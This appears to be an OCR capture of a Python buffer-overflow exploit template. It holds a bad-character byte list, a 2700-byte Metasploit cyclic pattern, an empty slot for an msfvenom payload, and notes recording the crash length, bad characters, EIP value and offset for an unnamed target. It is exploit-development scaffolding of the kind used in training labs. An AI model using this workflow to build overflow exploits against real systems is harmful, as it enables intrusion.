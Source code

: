 ```
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
chars += "\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

#
# PATTERN
# Paste pattern_create command next line and pattern beneath.
# echo -n "pattern  = "; ./pattern_create.rb -l 2700 | sed 's/.*/\"&\"/' |\
# sed 's/.\{62\}/&\"\npattern\ \+\=\ \"/g'
pattern  = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9A"
pattern += "c0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0"
pattern += "Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag"
pattern += "1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1A"
pattern += "i2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2"
pattern += "Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am"
pattern += "3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3A"
pattern += "o4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4"
pattern += "Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As"
pattern += "5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5A"
pattern += "u6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6"
pattern += "Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay"
pattern += "7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7B"
pattern += "a8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8"
pattern += "Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be"
pattern += "9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9B"
pattern += "h0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0"
pattern += "Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl"
pattern += "1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1B"
pattern += "n2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2"
pattern += "Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br"
pattern += "3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3B"
pattern += "t4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4"
pattern += "Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx"
pattern += "5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5B"
pattern += "z6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6"
pattern += "Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd"
pattern += "7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7C"
pattern += "f8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8"
pattern += "Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj"
pattern += "9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9C"
pattern += "m0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0"
pattern += "Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq"
pattern += "1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1C"
pattern += "s2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2"
pattern += "Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw"
pattern += "3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3C"
pattern += "y4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4"
pattern += "Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc"
pattern += "5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5D"
pattern += "e6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6"
pattern += "Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di"
pattern += "7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7D"
pattern += "k8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"

#
# PAYLOAD
# Paste msfvenom command next line, payload info beneath, then payload.
# 

#################### Exploit
# Target crashes at "A" * 2700____________________ (# bytes: qty of char "A")
# Badchars: "\x00\x19\x1a\x1b\x1c"________________ (\xXX hex string)
# Pattern-generated EIP: "Ac3A"___________________ (4 bytes in hex)
# Specific offset (splat) is 69___________________ (# bytes)
```